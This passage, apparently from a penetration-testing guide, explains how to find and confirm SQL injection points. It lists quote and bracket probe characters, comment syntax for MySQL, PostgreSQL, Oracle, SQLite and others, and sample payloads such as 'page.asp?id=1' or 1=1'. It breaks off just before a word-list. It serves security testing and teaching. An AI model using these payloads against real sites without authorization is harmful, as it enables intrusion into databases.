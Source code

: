 # Entry point detection
```
'
"
`
')
")
`)
'))
"))
`))
```
Then, you need to know how to fix the query so there isn't errors. In order to fix the query you can input data so the previous query accept the new data, or you can just input your data and add a comment symbol add the end
# Comments
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```
# Confirming with logical operations
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.

For example: if the GET parameter ?username=Peter returns the same content as ?username=Peter' or '1'='1 then, you found a SQL injection.

Also you can apply this concept to mathematical operations. Example: If ?id=1 returns the same as ?id=2-1, SQLinjection.
```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```
This word-list was created to try to confirm SQLinjections in the proposed way:
